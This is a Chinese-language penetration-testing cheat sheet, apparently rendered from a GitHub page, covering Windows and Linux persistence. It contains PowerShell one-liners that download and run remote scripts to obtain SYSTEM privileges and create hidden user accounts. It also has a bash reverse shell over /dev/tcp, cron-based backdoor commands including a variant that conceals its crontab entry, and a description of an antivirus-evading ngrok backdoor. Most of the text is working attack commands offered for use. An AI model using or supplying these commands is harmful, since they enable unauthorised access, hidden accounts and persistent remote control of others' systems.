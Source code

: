 3389user 无法添加:

>   http://www.91ri.org/5866.html

****隐藏 win 账户****

开启 sys 权限 cmd:

>   IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1');Invoke-TokenManipulation -CreateProcess 'cmd.exe' -Username 'nt authority\system'

add user 并隐藏:

>   IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/Windows-User-Clone/master/Windows-User-Clone.ps1')

win server 有密码强度要求，改为更复杂密码即可:

渗透技巧——Windows 系统的帐户隐藏

>   https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F/

windows 的 RDP 连接记录:

>   http://rcoil.me/2018/05/%E5%85%B3%E4%BA%8Ewindows%E7%9A%84RDP%E8%BF%9E%E6%8E%A5%E8%AE%B0%E5%BD%95/

### linux bash

>   bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

``bash -i`` 交互的 shell

``&`` 标准错误输出到标准输出

``/dev/tcp/10.0.0.1/8080`` 建立 socket ip port

``0>&1`` 标准输入到标准输出

>   (crontab -l;echo '*/60 * * * * exec 9<> /dev/tcp/IP/port;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i')|crontab -

猥琐版

>   (crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/IP/PORT;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for whoami%100c\n")|crontab -

详细介绍

>   https://github.com/tom0li/security_circle/blob/master/15288418585142.md

### ngrok-backdoor

Grok-backdoor 是一个简单的基于 python 的后门，它使用 Ngrok 隧道进行通信。Ngrok 后门可以使用 Pyinstaller 生成 windows，linux 和 mac 二进制文件。

虽然免杀，但如果开 win 防火墙会提示，生成后门时会询问是否捆绑 ngrok，选择 no 时，在被攻击机执行时需联网下载 ngrok，运行后，telnet 连接即可.

>   https://github.com/deepzec/Grok-backdoor
